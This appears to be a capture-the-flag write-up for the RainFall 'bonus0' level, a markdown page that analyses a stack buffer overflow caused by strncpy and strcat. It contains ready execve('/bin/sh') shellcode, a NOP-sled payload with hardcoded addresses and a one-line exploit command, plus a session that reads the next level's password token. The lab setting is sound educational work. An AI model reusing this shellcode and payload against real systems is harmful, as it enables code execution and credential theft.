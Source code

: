 # bonus0

1. Decompilation with Ghidra

    The binary contains three functions with dangerous string handling:

    ```c
    /* Function p() - reads input with prompt */
    void p(char *param_dest, const char *prompt)
    {
        char *nl;
        char big_read_buffer[4104];

        puts(prompt);
        read(0, big_read_buffer, 0x1000);     /* reads up to 4096 bytes */
        nl = strchr(big_read_buffer, '\n');
        if (nl != NULL) *nl = '\0';
        strncpy(param_dest, big_read_buffer, 0x14); /* copies 20 bytes, may not null-terminate! */
        return;
    }

    /* Function pp() - builds and concatenates strings */
    void pp(char *param_out)
    {
        char local_34[20];   /* first_part */
        char local_20[20];   /* second_part */

        p(local_34, " - ");
        p(local_20, " - ");

        strcpy(param_out, local_34);  /* ⚠️ No null-terminator check! */
        
        size_t len = strlen(param_out);
        param_out[len] = ' ';
        param_out[len+1] = '\0';
        
        strcat(param_out, local_20); /* ⚠️ No size check! */
        return;
    }

    int main(void)
    {
        char local_3a[54];  /* output_buffer */
        pp(local_3a);
        puts(local_3a);
        return 0;
    }
    ```

2. Analysis of the vulnerability

    The vulnerabilities:

    1. **Function `p()`: `strncpy` doesn't null-terminate** if source is >= 20 bytes
    - `strncpy(param_dest, big_read_buffer, 0x14)` copies exactly 20 bytes
    - If input is 20+ chars, no `\0` is added to `param_dest`

    2. **Function `pp()`: `strcpy` reads beyond buffer** if source not null-terminated
    - `strcpy(param_out, local_34)` copies until finding `\0`
    - If `local_34` has no `\0`, continues reading into `local_20`!

    3. **Function `pp()`: `strcat` has no bounds checking**
    - Can overflow `param_out` (54 bytes max in main)

    Stack layout in `pp()`:

    ```text
    High addresses
    ─────────────────────────────
    [return address to main]  ← TARGET 🎯
    [saved EBP]
    [local_34: 20 bytes]     ← first input (first_part)
    [local_20: 20 bytes]     ← second input (second_part)
    ─────────────────────────────
    Low addresses
    ```

3. Finding the exploit strategy

    Strategy:

    1. **First input**: Send exactly 20 characters (no newline counted)
    - `p()` copies 20 bytes with `strncpy` → **no null terminator**
    - `local_34` = `[20 chars, no \0]`

    2. **Second input**: Send payload to overflow
    - `local_20` = our controlled data

    3. **In `pp()`**:
    - `strcpy(param_out, local_34)` copies 20 bytes + continues reading
    - Reads into `local_20` until finding `\0`
    - `strlen(param_out)` returns wrong length
    - `strcat(param_out, local_20)` appends more data
    - **Overflow occurs and overwrites saved EIP!**

    ### Finding the offset to EIP

    ```bash
    gdb ./bonus0
    (gdb) run
    # Input 1: AAAAAAAAAAAAAAAAAAAA (20 A's)
    # Input 2: BBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLL

    # Program received signal SIGSEGV, Segmentation fault.
    # 0x43434343 in ?? ()
    ```

    **EIP = 0x43434343 = "CCCC"** → offset = **9 bytes** from start of second input

    ### Finding the buffer address in p()

    The function `p()` has a large buffer[4096] where we can store our shellcode:

    ```bash
    gdb ./bonus0
    (gdb) set disassembly-flavor intel
    (gdb) disass p
    # Find: lea eax,[ebp-0x1008]  at offset +28 (0x080484d0)

    (gdb) b *0x080484d0
    (gdb) run
    # Input 1: (any input)

    (gdb) x $ebp-0x1008
    # Result: 0xbfffe590  ← buffer address
    ```

    ### Calculate shellcode address

    ```
    Buffer address:      0xbfffe590
    + 61 bytes:          0xbfffe5cd  (skip copied arguments)
    + 40 bytes:          0xbfffe5f5  ← Target address (middle of NOPs)
    ```

4. Exploitation

    Memory layout of the exploit:

    ```text
    p() function buffer[4096]:
    ┌─────────────────────────────────────────────────────────┐
    │ [100 NOPs] + [shellcode (28 bytes)] + [unused space]   │
    │  └─ 0xbfffe590                    └─ 0xbfffe5f8         │
    └─────────────────────────────────────────────────────────┘
                        ↑
                        Target: 0xbfffe5f5 (middle of NOPs)

    pp() function stack:
    ┌─────────────────────────────────┐
    │ local_20[20]  ← Input 2         │
    │ local_34[20]  ← Input 1         │
    │ saved EBP                       │
    │ saved EIP     ← Overwritten! 🎯 │
    └─────────────────────────────────┘
    ```

    Payload structure:

    **Input 1:** 100 NOPs + shellcode

    ```python
    "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
    ```

    **Input 2:** Offset (9 bytes) + Target address (4 bytes) + Padding (7 bytes)

    ```python
    "A" * 9 + "\xf5\xe5\xff\xbf" + "B" * 7
    ```

    Full exploitation command:

    ```bash
    (python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'; python -c 'print "A" * 9 + "\xf5\xe5\xff\xbf" + "B" * 7'; cat) | ./bonus0
    ```

    Execution flow:

    1. First `p()` call: Reads input1, fills buffer[4096] with NOPs + shellcode
    2. `strncpy(local_34, buffer, 20)` copies 20 NOPs **without null terminator**
    3. Second `p()` call: Fills buffer[4096] with input2
    4. `strncpy(local_20, buffer, 20)` copies: `"AAAAAAAAA\xf5\xe5\xff\xbf..."`
    5. `strcpy(param_out, local_34)` copies 20 bytes + continues into `local_20`
    6. `strcat(param_out, local_20)` causes overflow, overwrites saved EIP with `0xbfffe5f5`
    7. `pp()` returns, jumps to `0xbfffe5f5` (middle of NOPs)
    8. CPU slides through NOPs to shellcode
    9. Shellcode executes: `execve("/bin/sh")` 🎉

    Full exploitation session:

    ```bash
    bonus0@RainFall:~$ (python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'; python -c 'print "A" * 9 + "\xf5\xe5\xff\xbf" + "B" * 7'; cat) | ./bonus0
    - 
    - 
    AAAAAAAAA����BBBBBBB��� AAAAAAAAA����BBBBBBB���
    whoami
    bonus1
    cat /home/user/bonus1/.pass
    cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
    ```

5. Token discovered

    The token is: `cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9`
